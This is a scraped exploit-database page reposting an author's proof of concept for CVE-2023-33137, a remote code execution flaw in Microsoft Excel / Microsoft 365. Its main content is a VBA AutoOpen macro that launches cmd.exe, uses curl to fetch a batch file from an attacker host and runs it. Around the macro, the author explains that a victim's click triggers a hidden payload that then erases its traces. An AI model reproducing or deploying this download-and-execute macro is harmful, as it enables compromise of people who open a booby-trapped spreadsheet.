 ```yaml
---
title: Microsoft Excel / 365 MSO Remote Code Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173148&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-28
fetch_date: 2025-10-04T11:46:07.272248
---
```


# Microsoft Excel / 365 MSO Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Microsoft Excel / 365 MSO Remote Code Execution CVE-2023-33137

2023-06-27 | CVSS 7.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173148
## Title: Microsoft Excel Microsoft® Microsoft 365 MSO (Version 2305
Build 16.0.16501.20074) 32-bit Remote Code Execution Vulnerability
## Author: nu11secur1ty
## Date: 06.27.2023
## Vendor: https://www.microsoft.com/
## Software: https://www.microsoft.com/en-us/microsoft-365/excel
## Reference: https://portswigger.net/daily-swig/rce
## CVE-2023-33137

## Description:
This exploit is connected with third part exploit server, which waits
for the victim to call him and execute the content from him using the
pipe posting method! This is absolutely a 0-day exploit! This is
absolutely dangerous for the victims, who are infected by him!
When the victim hit the button in the Excel file, it makes a POST
request to the exploit server, and the server is responding back that
way: He creates another hidden malicious file and executed it directly
on the machine of the victim, then everything is disappeared, so
nasty.

STATUS: HIGH Vulnerability WARNING: THIS IS VERY DANGER for the usual users!

[+]Exploit:
```vbs
Sub AutoOpen()
Call Shell("cmd.exe /S /c" & "curl -s
https://attacker.com/nu11secur1ty/somwhere/ontheinternet/maloumnici.bat
> maloumnici.bat && .\maloumnici.bat", vbNormalFocus)
End Sub

```

## Reproduce:
[href](https://github.com/nu11secur1ty/Windows11Exploits/tree/main/2023/CVE-2023-33137)

## Proof and Exploit:
[href](https://www.nu11secur1ty.com/2023/06/microsoft-excel-microsoft-365-mso.html)

## Time spend:
01:27:00

--
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.htmlhttps://cxsecurity.com/ and
https://www.exploit-db.com/
0day Exploit DataBase https://0day.today/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=
nu11secur1ty <http://nu11secur1ty.com/>

--
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.html
https://cxsecurity.com/ and https://www.exploit-db.com/
0day Exploit DataBase https://0day.today/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=
nu11secur1ty <http://nu11secur1ty.com/>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)